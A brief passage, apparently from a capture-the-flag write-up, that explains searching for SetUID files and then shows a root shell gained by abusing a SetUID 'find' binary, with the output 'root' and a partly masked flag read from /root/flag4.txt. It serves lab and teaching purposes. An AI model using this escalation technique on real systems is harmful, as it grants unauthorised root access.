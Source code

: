 Note: The command find / -perm -4000 2>/dev/null does the following:

find /: Starts searching from the root directory /.
-perm -4000: Looks for files with the SetUID permission bit set. This allows users to execute the file with the permissions of the file's owner.
2>/dev/null: Suppresses error messages (e.g., permission denied messages) by redirecting them to /dev/null, effectively ignoring them.

```bash
$ find / -exec /bin/rbash -p \; -quit
whoami
root
cat /root/flag4.txt
FLAG4{d1038e2989e8427fb283b6************}

```